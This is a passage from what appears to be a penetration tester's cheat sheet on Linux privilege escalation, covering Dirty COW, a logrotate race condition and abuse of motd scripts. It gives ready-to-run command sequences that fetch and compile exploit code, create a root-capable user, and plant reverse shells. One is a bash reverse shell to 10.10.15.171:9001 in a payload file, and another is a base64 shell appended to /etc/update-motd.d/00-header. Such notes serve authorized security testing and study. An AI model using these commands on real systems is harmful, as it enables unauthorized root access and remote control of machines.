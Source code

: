 

### Dirty COW

* [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

```
$ curl -L https://github.com/FireFart/dirtycow/raw/master/dirty.c > dirty.c
$ gcc dirty.c -o dirty -pthread -lcrypt
$ ./dirty Passw0rd
$ su firefart
```



### logrotate

* [https://github.com/whotwagner/logrotten/blob/master/logrotten.c](https://github.com/whotwagner/logrotten/blob/master/logrotten.c)

```
$ curl https://github.com/whotwagner/logrotten/raw/master/logrotten.c > lr.c
$ gcc lr.c -o lr

$ cat payloadfile
if [ `id -u` -eq 0 ]; then (bash -c 'bash -i >& /dev/tcp/10.10.15.171/9001 0>&1' &); fi

$ ./lr -p ./payload -t /home/snovvcrash/backups/access.log -d
```

* [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)
* [https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges)
* [https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition)
* [https://popsul.ru/blog/2013/01/post-42.html](https://popsul.ru/blog/2013/01/post-42.html)



### motd

`/etc/update-motd.d/`:

```
$ shellpop --reverse --number 8 -H 127.0.0.1 -P 1337 --base64
$ echo '<BASE64_SHELL>' >> 00-header
* Fire up new SSH session and catch the reverse shell
```

* [https://www.securityfocus.com/bid/50192/discuss](https://www.securityfocus.com/bid/50192/discuss)

PAM MOTD:

* [https://www.exploit-db.com/exploits/14273](https://www.exploit-db.com/exploits/14273)
* [https://www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)

